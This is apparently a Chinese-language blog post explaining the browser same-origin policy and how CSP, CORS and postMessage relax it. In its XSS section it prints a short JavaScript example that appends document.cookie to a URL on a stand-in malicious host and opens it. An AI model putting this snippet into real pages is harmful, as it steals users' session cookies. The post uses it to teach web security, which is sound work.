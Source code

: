 ```yaml
---
title: 浏览器为何限制跨域访问？
categories:
 - Browser
tags:
 - 浏览器安全
 - 跨域
 - 同源策略
 - Same Origin Policy
date: 2022-10-09
sidebar: 'auto'
---
```


## 前言
假如页面没有安全策略：
* Web是开放的，任何资源可以介入，自己网站可以加载并执行他人网站的脚本文件、图片、音视频等资源，甚至下载其他站点的可执行文件。
* 页面上行为没有任何限制造成无序混沌的局面、不可控。

打开一个银行站点，又打开一个恶意站点，恶意站点将可以做很多事情：
* 修改银行站点的DOM、CSSOM等信息；
* 在银行站点内部插入JavaScript脚本；
* 劫持用户登录的用户名和密码；
* 读取银行站点的Cookie、IndexDB等数据；
* 将信息上传至自己的服务器，伪造转账请求；

**没有安全策略的Web，我们是没有隐私的，所以需要安全策略来保障隐私和数据的安全。**<br/>
:::tip
页面中最基础、最核心的安全策略：同源策略（Same-origin policy）。
::: 

## 同源策略
两个URL => 协议（http）、域名（mobs.fun）、端口（80）相同 => URL同源。<br/>
浏览器默认同源之间可以**相互访问资源和操作DOM**，不同源之间若想要相互访问资源或者操作DOM，会有**一套基础的安全策略的制约**（同源策略）。<br/>
同源策略三个层面：
1. DOM层面 => 同源策略限制了不同源的JavaScript脚本对当前站点DOM对象读和写的操作。
2. 数据层面 => 同源策略限制了不同源的站点读取当前站点的Cookie、IndexDB、LocalStorage等数据。无法通过第二个页面的[opener](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/opener)来访问第一个页面中的Cookie、IndexDB、LocalStorage等数据。
3. 网络层面 => 同源策略限制了通过[XMLHttpRequest](../javascript/XMLHttpRequest.html)等方式将站点的数据发送给不同源的站点。

## 安全性和便利性的权衡
同源策略隔离了不同源的DOM、数据、网络通信，实现Web页面的安全性。<br/>
但是安全性和便利性是相互对立的，不同的源之间绝对隔离，可以说是最安全的措施，但这会让Web项目变得难以开发和使用。所以需要做出权衡，**出让一些安全性来满足灵活性。**<br/>
浏览器出让的同源策略的安全性有哪些：
1. 页面中可以嵌入第三方资源
2. 跨域资源共享
3. 跨文档消息机制

### 页面中可以嵌入第三方资源
同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有HTML文件、JavaScript文件、CSS文件、图片等资源都部署在同一台服务器上。这其实违背了Web的初衷，也带来了很多限制。<br/>
比如我们需要引用不同CDN上的资源，域名其实是不同的，我们是需要同源策略支持页面任意引用外部文件，所以最初的浏览器都是支持引用外部资源文件的。<br/>
**带来的弊端：**
* HTML文件注入恶意JavaScript脚本
* XSS攻击。
```js
function onClick(){
 // 恶意脚本读取Cookie数据，并将其作为参数添加至恶意站点尾部。
 // 当打开该恶意页面时，恶意服务器就能接收到当前用户的Cookie信息。
 let url = `http://test.com?cookie=${document.cookie}`
 open(url)
}
onClick()
```
解决XSS攻击，浏览器中引入了[内容安全策略](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)（CSP），CSP的核心思想是**让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联JavaScript代码**。

### 跨域资源共享
一般情况，通过XMLHttpRequest or Fetch来请求其他站点的资源，同源策略会阻止向其发出请求。<br/>
为了解决这个问题，引入了[跨域资源共享](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS)（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。
### 跨文档消息机制
同源策略下，如果两个页面不同源的，则无法相互操纵DOM。实际情况下，经常需要两个不同源的DOM之间进行通信，所以浏览器中又引入了跨文档消息机制，可以通过
JavaScript接口[window.postMessage](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/postMessage)来进行不同源的DOM通信。

## 总结
* 同源策略隔离不同源的DOM、数据、网络通信，实现Web页面的安全性。<br/>

目前在安全性和便利性权衡下的安全策略特点：
1. 页面可以引用第三方资源 => 暴露了很多安全问题（XSS攻击）=> 在此基础上引入了CSP来限制其自由程度。 
2. 使用XMLHttpRequest和Fetch是无法直接进行跨域请求的 => 浏览器在其基础上引入了**跨域资源共享策略**，让其安全地进行跨域操作。
3. 两个不同源的DOM不能相互操纵 => 浏览器中实现了**跨文档消息机制**让其安全地通信